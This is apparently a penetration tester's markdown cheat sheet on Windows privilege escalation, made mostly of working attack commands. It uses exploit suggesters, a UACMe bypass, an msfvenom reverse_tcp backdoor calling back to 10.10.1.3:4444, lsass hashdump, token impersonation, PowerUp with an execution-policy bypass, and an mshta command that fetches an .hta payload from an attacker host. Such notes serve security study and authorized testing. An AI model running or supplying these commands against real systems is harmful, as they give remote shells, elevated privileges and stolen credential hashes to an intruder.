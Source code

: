 # Kernel Exploit:

- https://github.com/AonCyberLabs/Windows-Exploit-Suggester : missing patches comparison
- ./windows-exploit-suggester.py --update - generates xls to use in nxt step
- ./windows-exploit-suggester.py --database <xlsfile> --systeminfo <txt_file_with_systeminfo_output_from_win_shell>
- google exploit, may need to upload .exe to target sys, run it to get elevated shell
- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-135

# Metasploit Modules:

- post/multi/recon/local_exploit_suggester : suggest exploits
	- eg. exploit/windows/local/ms16_014_wmi_recv_notif

# UACBypass - UACMe 



- need local admin account access
- migrate process to explorer.exe 
- pgrep explorer.exe OR ps -S explorer.exe
- https://github.com/hfiref0x/UACME
- using meterpreter, upload Akagi64.exe and upload playload generated with msfvenom to target system
	- use exploit/multi/handler to start a listener
	- Akagi64.exe 23 <payload_path> : run on target computer
	- Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
	- msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.1.3 LPORT=4444 -f exe > 'backdoor.exe'
- once run, we will get meterpreter session - getprivs/getsystem to get elevated privs
- migrate to lsass.exe and run hashdump

# Impersonate

![meterpreter getuid](./images/privesc-01.png)

![meterpreter access denied to read file](./images/privesc-02.png)  ￼￼

- load incognito
- list_tokens -u : make note of available tokens (eg. delegation token)
- impersonate_token <token_name>

![meterpreter access denied to read file](./images/privesc-03.png)  ￼￼	   ￼

# PowerUp

- https://github.com/PowerShellMafia/PowerSploit
- In target machine:
	- powershell -ep bypass (PowerShell execution policy bypass)
	- . .\PowerUp.ps1
	- Invoke-PrivescAudit - it will find misconfig files/leftover files like Unattend.xml
	- Get password from the Unattend.xml file, decode base64.
	- $password='QWRtaW5AMTIz'
  	  $password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
  	  echo $password
	- runas.exe /user:administrator cmd
- In attacker machine:
	- use exploit/windows/misc/hta_server
	- running the above module generates a .hta payload, run in cmd on target
	- on target cmd: mshta.exe http://10.10.0.2:8080/6Nz7aySfPN.hta
